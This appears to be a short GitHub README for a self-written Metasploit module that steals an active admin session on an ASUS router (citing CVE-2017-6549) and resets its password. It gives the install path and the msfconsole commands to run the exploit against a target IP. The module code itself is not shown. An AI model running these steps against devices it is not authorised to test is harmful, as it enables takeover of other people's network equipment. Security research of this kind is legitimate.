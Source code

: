 # asus-router-session-steal
Wrote my own metasploit module to session steal my old router and change the password
Works by stealing an active admin session and is related to the 
CVE-2017-6549 vulnerability

## Instructions
Move the `.rb` file to `/usr/share/metasploit-framework/modules/exploit/linux/http`

Run the following commands after moving:
```
msfconsole
use exploit/linux/http/session_steal_router
set RHOST <ROUTER_IP_HERE>
set new_pw <INTENDED_PW_HERE>
exploit
```
